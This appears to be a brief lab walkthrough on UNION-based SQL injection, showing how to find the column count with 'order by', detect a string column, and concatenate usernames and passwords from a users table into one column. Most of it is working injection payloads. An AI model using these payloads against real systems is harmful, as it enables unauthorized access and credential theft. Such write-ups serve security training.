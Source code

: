 # Multiple values in single column

we can retrieve multiple values together within this single column by concatenating their values

query

```
' union select username || '~' || password from users--
```
here || indicates the concatenation operator on Orcale and ~ indicates seperated by

end goal : Multiple value in single column

running query directly gave us internal error

let's try to figure  out the columns

```
' order by 1--
' order by 2--
```
 here we have two columns lets check if it conatins string or not

```
' union select 'a',NULL from users-- //this query return error so it doesn't have string

' union select NULL, 'a' from users-- //gave us output
```

After this analysis our payload should be

payload

```
' union select NULL, username ||'~'|| password from users--
```
Got all the desired output